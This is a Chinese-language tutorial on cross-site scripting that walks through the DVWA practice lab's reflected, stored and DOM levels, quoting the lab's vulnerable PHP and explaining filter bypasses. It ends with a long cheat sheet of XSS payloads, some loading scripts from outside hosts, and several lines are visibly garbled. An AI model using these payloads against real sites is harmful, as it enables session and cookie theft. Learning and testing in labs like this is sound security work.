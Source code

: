 ```yaml
---
title: XSS简介
date: 2019-3-18
tags: XSS

---
```



> 跨站脚本攻击-XSS,全称Cross site scripting，特殊的注入攻击，相当于在代码中注入恶意的脚本，当用户访问页面时，在浏览器中触发并解析代码，完成攻击。xss根据不同的攻击形式分为反射型xss、存储型xss、Dom型Xss。

> 1.反射型XSS：非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。**

> 2.存储型XSS：存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie（虽然还有种DOM型XSS，但是也还是包括在存储型XSS内）。**

> 3.DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。**

_具体内容可以看`https://www.zhihu.com/question/26628342`个人觉得说的还不错_



### 反射型xss

- low 

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
``` 

_显然没有做任何的防护措施_

**攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```
**显然低等级的对以上注入方法都是可以做到的**

- medium

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**我们可以看到中等级过滤了<script>,这时我能想到的有两种解决办法：**

1.大小写替换，诸如<SCRiPt>之类的

2.写两次：<scr<script>ipt>替换

—除了含有script的需要注意一下，其他注入方法可以正常执行—

- high

```
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
} 
```

**这里是用正则表达式做替换，使用通配符，对script相关的替换掉，但对事件型的构造语句没有进行过滤,如：**

```
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- impossible 

```
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>"; 
```

**严格，加了token，htmlspecialchars（）可对输入参数进行实体转义，输入的<,>等都是会当做实体字符输出,目前并没有想到绕过的办法**

### 存储型XSS

**首先先列出几种攻击方法：**

```
<script>alert('XSS')</script> 
'><script>alert(document.cookie)</script>
<IFRAME SRC=javascript:alert(‘XSS’)></IFRAME>//框架注入
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><" 
<A HREF=http://127.0.0.1/phpinfo.php>link</A> //链接注入
<img src=1 onerror=alert(2)> //图片注入
```

- low 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
    //mysql_close();
}

```

**显然没有经过防护所有的攻击手段都是可行的**

- medium 

```
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
} 
```

**这里message的防住入做的很棒：**

addslashes() 函数返回在预定义字符之前添加反斜杠的字符串
htmlspecialchars() 函数把预定义的字符转换为 HTML 实体

当然，虽然message不太好搞，但是name的防护措施只做了一个str_replace( '<script>', '', $name )，根据反射型xss的经验，可以对script进行大小写和双写的绕过。虽然name是有长度限制的，但只要我们再进行一下抓包改包发包即可完成，具体过程不再赘述。

- high

```
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?> 
```
**有了medium处的教训，这里不再把精力浪费在message上。对于name处的注入可参照反射型xss的high等级。**

### Dom型XSS

- Low 

```
<?php

# No protections, anything goes

?> 
```

**对于低等级，没有任何防护措施，我们选择直接xss**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=<script>alert('xss')</script>`

- medium

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

**可以看到这里只要一出现'<script'就会自动替换成默认值：‘English’，并且是区分大小写的。所以这里换一种方法，使用不含<script>的注入方式**

**如果直接用<img src=1 onerror=alert('xss')>不会出现，这里可以通过查看源代码闭合标签从而达到我们想要的效果**

`http://localhost/DVWA-master/vulnerabilities/xss_d/?default=></option></select><img src=1 onerror=alert('xss')>`

### XSS注入常用语句

```
<script>alert('hello，gaga!');</script> //经典语句，哈哈！
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<script>alert('XSS')</script>
<img src="javascript:alert('XSS')">
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
<script>alert('Vulnerable')</script>
a.jsp/<script>alert('Vulnerable')</script>
"><script>alert('Vulnerable')</script>
<IMG SRC="javascript.:alert('XSS');">
<IMG src="/javascript.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"('XSS')>
<IMG src="/JaVaScRiPt.:alert"("XSS")>
<IMG SRC="jav	ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
<IMG SRC="jav ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
